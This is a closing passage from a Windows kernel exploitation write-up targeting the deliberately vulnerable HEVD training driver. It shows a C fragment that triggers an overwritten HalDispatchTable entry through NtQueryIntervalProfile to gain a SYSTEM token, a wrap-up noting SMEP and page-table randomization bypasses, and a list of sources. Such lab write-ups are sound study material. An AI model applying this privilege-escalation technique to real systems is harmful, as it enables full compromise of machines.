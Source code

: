 ```c

	// Invoking nt!NtQueryIntervalProfile to execute [nt!HalDispatchTable+0x8]
	printf("[+] Calling nt!NtQueryIntervalProfile to execute [nt!HalDispatchTable+0x8]...\n");

	// Calling nt!NtQueryIntervalProfile.
	ULONG exploit = 0;

	NtQueryIntervalProfile(
		0x1234,
		&exploit
	);
}
```

That's it, our process is now running with a system token!

## Wrapping up
In this write up we saw how to exploit an arbitrary "Write What Where" in Windows kernel.
As I have said in the above, there are many different mitigations in Windows 10 latest versions and it gets even harder when VBS is in place.
Here I have showed how to bypass some of the mitigations like SMEP and Page Table Randomization. There are more ways to bypass those mitigations other than what I have showed.

## Sources
 - [HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
 - [Connor McGarr Blog](https://connormcgarr.github.io/pte-overwrites/)
 - [Inte's manual](https://www.intel.com/content/dam/www/public/us/en/documents/manuals/64-ia-32-architectures-software-developer-vol-3a-part-1-manual.pdf)
 - [geoffchappell - HalDispatchTable](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/ntos/hal/hal_dispatch.htm)
